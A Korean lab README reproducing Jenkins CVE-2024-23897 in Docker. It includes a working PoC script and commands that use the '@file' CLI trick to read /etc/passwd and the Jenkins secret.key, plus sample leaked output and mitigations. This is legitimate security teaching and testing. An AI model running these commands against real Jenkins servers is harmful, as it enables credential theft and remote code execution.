



# Jenkins CVE-2024-23897 — CLI 임의 파일 읽기(Arbitrary File Read) → RCE

> Contributor: [@60secAgo](https://github.com/60secAgo) | Risk Score: 9.8 

Jenkins CLI 명령 파서(args4j)의 `expandAtFiles` 기능으로 인해, 인자에 포함된 `@<파일경로>` 가 해당 파일의 내용으로 치환된다. 이를 악용하면 원격에서 Jenkins 컨트롤러의 **임의 파일을 읽을 수 있으며**, 유출된 자격증명/암호화 키를 통해 원격 코드 실행(RCE)까지 이어질 수 있다.

---

## 1. 취약점 요약

| 항목 | 내용 |
| --- | --- |
| CVE ID | CVE-2024-23897 |
| 분류 | Arbitrary File Read (CWE-27 Path Traversal / args4j `expandAtFiles`) |
| 공격 벡터 | 원격(Network), 인증 불필요(익명 접근으로도 부분 유출 가능) |
| 영향 | 컨트롤러 파일 시스템의 임의 파일 열람 → 자격증명·`secret.key`·SSH 키 유출 → RCE |
| CVSS 3.1 | **9.8 (Critical)** — `AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H` |
| 근본 원인 | Jenkins CLI 가 사용하는 args4j 라이브러리의 `expandAtFiles` 옵션이 기본 활성화 |

### 근본 원인 상세

Jenkins 는 CLI 명령의 인자를 파싱할 때 [args4j](https://github.com/kohsuke/args4j) 라이브러리를 사용한다. args4j 에는 인자가 `@` 로 시작하면 그 뒤 경로의 **파일 내용을 읽어 인자 목록으로 펼치는(expandAtFiles)** 기능이 있으며, 취약 버전에서는 이 기능이 기본으로 켜져 있고 비활성화되어 있지 않다. 따라서 `connect-node "@/etc/passwd"` 처럼 요청하면 `/etc/passwd` 의 각 줄이 인자로 치환되고, 존재하지 않는 노드명이라는 오류 메시지에 그 내용이 그대로 실려 응답으로 반환된다.

- **익명(권한 없음)**: 파일의 앞부분 일부 줄만 유출.
- **Overall/Read 권한 보유**: 파일 **전체** 유출. (본 환경은 재현성 보장을 위해 익명에게 Read 권한을 부여한 상태로 고정 → 전체 유출 재현)

---

## 2. 영향받는 버전

| 라인 | 취약 | 수정 |
| --- | --- | --- |
| Weekly | ≤ 2.441 | 2.442 |
| LTS | ≤ 2.426.2 | 2.426.3 |

본 환경은 **`jenkins/jenkins:2.426.2-lts-jdk17`** 태그를 핀 고정하여 사용한다. 이 버전은 수정본(2.426.3) 직전 LTS 로 반드시 취약하다.

---

## 3. 환경 구성

디렉터리 구조는 다음과 같다.

```
Jenkins/CVE-2024-23897/
├── Dockerfile
├── docker-compose.yml
├── init.groovy.d/
│   └── basic-security.groovy
├── poc.sh
└── README.md
```

`docker compose` 하나로 완결되며, 사용하는 이미지는 공식 Jenkins 이미지의 **특정 태그를 핀 고정**한 것이다(제어 불가능한 `:latest` 미사용).

### 구성 요소

- **Dockerfile** — 취약 버전(`2.426.2-lts-jdk17`)을 베이스로, 설치 마법사를 비활성화하고 초기화 스크립트를 주입한다. PoC 를 컨테이너 내부에서 수행하기 위해 `curl` 만 추가 설치한다.
- **init.groovy.d/basic-security.groovy** — 부팅 시 인증 전략을 확정(익명 Read 허용)하여 실행 결과가 결정적으로 재현되도록 한다.
- **docker-compose.yml** — 8080 포트를 노출하는 단일 서비스.

### 빌드 및 실행 (복붙 그대로)

```bash
# 1) 환경 기동
docker compose up -d --build

# 2) 기동 완료 대기 (약 20~40초). 아래가 뜨면 준비 완료:
#    "Jenkins is fully up and running"
docker compose logs -f jenkins | grep -m1 "Jenkins is fully up and running"
```

정상 기동 후 브라우저에서 `http://localhost:8080` 접속 시 로그인 없이 대시보드가 보인다.



---

## 4. 취약 조건

아래 조건이 모두 성립할 때 취약하다. 본 환경은 이를 그대로 만족한다.

1. Jenkins 버전이 Weekly ≤ 2.441 또는 LTS ≤ 2.426.2 이다. → **2.426.2-lts 로 고정**
2. CLI 엔드포인트(`/cli`, `/jnlpJars/jenkins-cli.jar`)에 네트워크로 접근 가능하다. → **8080 노출**
3. args4j `expandAtFiles` 가 활성(기본값)이다. → 취약 버전 기본 상태
4. (전체 파일 유출 재현을 위해) 요청 주체가 Overall/Read 를 가진다. → **익명 Read 허용으로 고정**

> 참고: 4번 권한이 없어도 파일 앞부분 유출은 가능하므로 취약점 자체는 익명·원격으로 성립한다. 4번은 "실행 결과의 결정적 재현"을 위한 설정이다.

---

## 5. 재현 절차

### 방법 A — 제공 스크립트 (권장, Docker 만 필요)

```bash
# 환경이 기동된 상태에서:
chmod +x poc.sh
./poc.sh /etc/passwd
```

### 방법 B — 수동 명령 (원리 확인용)

```bash
# 1) 취약 서버로부터 CLI 클라이언트(jar) 획득
curl -s http://localhost:8080/jnlpJars/jenkins-cli.jar -o jenkins-cli.jar

# 2) @<경로> 를 이용해 임의 파일 읽기 (호스트에 Java 17 필요)
java -jar jenkins-cli.jar -s http://localhost:8080/ connect-node "@/etc/passwd"

# 3) 민감 파일 예시 — Jenkins 마스터 키 (자격증명 복호화의 핵심)
java -jar jenkins-cli.jar -s http://localhost:8080/ connect-node "@/var/jenkins_home/secret.key"
```

> 방법 B 는 호스트에 Java 17 이 있어야 한다. Java 설치를 피하려면 방법 A(컨테이너 내부 실행)를 사용한다.



---

## 6. PoC 코드

`poc.sh` (Docker 만으로 동작 — CLI 실행을 컨테이너 내부에서 수행):

```bash
#!/usr/bin/env bash
set -euo pipefail

TARGET_FILE="${1:-/etc/passwd}"

echo "[*] 대상 파일        : ${TARGET_FILE}"
echo "[*] jenkins-cli.jar 다운로드 (컨테이너 내부)"
docker compose exec -T jenkins sh -c \
  "curl -s http://localhost:8080/jnlpJars/jenkins-cli.jar -o /tmp/jenkins-cli.jar"

echo "[*] 익스플로잇 실행  : connect-node \"@${TARGET_FILE}\""
echo "------------------------------------------------------------"
docker compose exec -T jenkins sh -c \
  "java -jar /tmp/jenkins-cli.jar -s http://localhost:8080/ connect-node \"@${TARGET_FILE}\"" \
  2>&1 || true
echo "------------------------------------------------------------"
echo "[*] 위 'No such agent \"...\"' 라인의 내용이 곧 유출된 파일 내용입니다."
```

핵심 한 줄:

```bash
java -jar jenkins-cli.jar -s http://localhost:8080/ connect-node "@/etc/passwd"
```

---

## 7. 실행 결과

`./poc.sh /etc/passwd` 실행 시, `connect-node` 가 파일의 각 줄을 노드명으로 해석하며 다음과 같이 **파일 내용이 오류 메시지에 실려 유출**된다.

```
------------------------------------------------------------
ERROR: No such agent "root:x:0:0:root:/root:/bin/bash" exists. Did you mean ...
ERROR: No such agent "daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin" exists. ...
ERROR: No such agent "bin:x:2:2:bin:/bin:/usr/sbin/nologin" exists. ...
ERROR: No such agent "jenkins:x:1000:1000::/var/jenkins_home:/bin/bash" exists. ...
...
------------------------------------------------------------
```

`/var/jenkins_home/secret.key` 를 대상으로 하면 자격증명 복호화에 쓰이는 마스터 키가 그대로 노출되며, 이는 저장된 크리덴셜 탈취 → 파이프라인을 통한 **원격 코드 실행(RCE)** 으로 이어진다.



---

## 8. 대응 방안

1. **패치 적용(근본 대책)**: Jenkins 를 **2.442+** 또는 **LTS 2.426.3+** 로 업그레이드한다. 수정본은 args4j 의 `expandAtFiles` 기능을 비활성화한다.
2. **임시 완화(패치 불가 시)**: [Jenkins 권고문](https://www.jenkins.io/security/advisory/2024-01-24/)에 따라 CLI 접근을 차단한다. (CLI 비활성화)
3. **권한 최소화**: 익명 사용자에게 Overall/Read 를 부여하지 않는다. 인증되지 않은 접근을 차단하면 전체 파일 유출 위험이 크게 감소한다.
4. **네트워크 차단**: 8080 및 에이전트 포트(50000)를 신뢰 네트워크로 제한하고, 컨트롤러를 인터넷에 직접 노출하지 않는다.
5. **사후 조치**: 유출 가능성이 있는 `secret.key`, 저장된 크리덴셜, SSH/토큰을 모두 폐기·교체한다.

---

## 9. 참고 자료

- Jenkins Security Advisory 2024-01-24 — <https://www.jenkins.io/security/advisory/2024-01-24/>
- NVD CVE-2024-23897 — <https://nvd.nist.gov/vuln/detail/CVE-2024-23897>
- args4j (expandAtFiles) — <https://github.com/kohsuke/args4j>

---

## 정리 (환경 종료)

```bash
docker compose down -v
```
